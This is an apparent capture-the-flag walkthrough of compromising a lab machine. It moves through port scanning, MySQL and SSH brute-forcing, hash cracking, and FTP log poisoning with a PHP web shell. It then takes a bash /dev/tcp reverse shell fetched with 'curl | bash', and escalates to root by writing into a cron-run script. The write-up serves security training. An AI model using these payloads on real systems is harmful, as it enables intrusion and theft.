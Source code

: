 Recon : 
a quick ping to verify the target is up. ![[2024-02-03_20-15.png]]

the target is up, will run a quick rust scan on the target to find open ports. 

![[2024-02-03_22-14.png]]

4 open ports, 21,22,80,3306

will run nmap scan to identify the services and versions running on those ports. 
![[2024-02-03_22-17.png]]

the results shows FTP, SSH AND HTTP and MYSQL and their respective versions.

Enumeration: 

Started enumeration with the ftp server, will attempt to login with an anonymous user. 
![[2024-02-03_20-27.png]]

Seems like, it does not permit anonymous login, will go back to that, will continue further enumeration with the web server running on port 80. Visiting the site on the web browser shows a simple login portal with username and password field. Viewed the source code, enumerated more and did not get anything. Also attempted couple of some default credentials. Were all futile. 

Also, i could try to bruteforce different services, but there are no usernames yet. Further enumeration to my mysql server, attempt to bruteforce mysql with hydra was successful atleast for now until credentials confirmed correct.

![[2024-02-03_22-21.png]]

Now, will login with the credentials. 


![[2024-02-03_22-24.png]]

and it was successful. 

Further enumeration on the mysql server. 

![[2024-02-03_22-27.png]]

after enumerating the database, got a username and a password hash, 

was able to crack the hash with john the ripper. ![[2024-02-03_22-37.png]]

Back to the web portal, will attempt the credentials.![[2024-02-03_22-57.png]]

and it was successful. 

There is an option to view log file which contains logs of attempted failed login to the ftp server. 
![[2024-02-03_23-04.png]]

That seems like there might be log poisoining, since the site run on php.

one way to find out, try!

attempt to login to the ftp server again and use this php code that calls system function. 

```txt
<?php system($_GET['cmd']); ?>
```


and try to view it in the website again. 

![[2024-02-06_19-44.png]]

Now, there is response back and it seems the www-data is the current user running.  

Further enumeration to get reverse shell, after confirming there is command execution, next is to get reverse shell with whatever method you prefer but i will create a payload `/bin/bash -i >& /dev/tcp/ip/port 0>&1` and save on local machine, create a simple python webserver to host the file, do not forget the netcat listener and run the following command with curl.

`curl url | bash` e.g curl http://ip/exploit | bash 

![[2024-02-06_22-08_1.png]]

and there should be a connection back. 

![[2024-02-06_22-08.png]]

further enumeration to escalate privileges to the user adrian. 

Poking in user adrian home directory, there are files, but the user currently running do not have permission to view but can view .reminder which seems to be a type of rule which is best64 that can be used when generating wordlists using hashcat or johntheripper, then in the last part, it shows + exclamation which means for each generated word, there must be an exclamation mark at the end. Perhaps, can be used to bruteforce ssh or any other services. 

To generate the potential passwords, add the word ettubrute to a file then type this :

john -wordlist:adrian.txt -rules:best64 -stdout > potentials



![[2024-02-06_22-37.png]]

Now, adding the exclamation marks. To save myself the stress, created a script in python that would do that. 

![[2024-02-06_22-47.png]]

Now, attempting to bruteforce ssh with the potential passwords available.  

After brute-forcing, finally got the password, 

![[2024-02-06_23-11_1.png]]


now can proceed to login. 

![[2024-02-06_23-11.png]]

Successfully logged in, now the user flag can be accessed. 

![[2024-02-06_23-14.png]]

Now further enumeration to escalate privileges to the root user. 

In the user adrian home directory, there are 2 files punch_in and punch_in.sh 

Let's do some analysis on it. 

viewing both files, ![[2024-02-06_23-28.png]]

![[2024-02-06_23-54.png]]

punch_in.sh file runs every minute and updates the punch_in file with current time. We have write permissions on punch_in and read-only permissions on punch_in.sh file.

Under FTP directory, there are some more files too.


![[2024-02-07_00-07.png]]


it seems like, the script file under /FTP/files takes the last line of the punch_in file and executing it using /bin/sh  
Using the punch_in file, since the current user has write permissions to it, can modify the permissions on any files

modify the punch_in file to have a reverse shell and set up a netcat listener. After that, will play the waiting game. 


![[2024-02-07_17-56.png]]

and there is the reverse connection back and also the flag! 


End. 


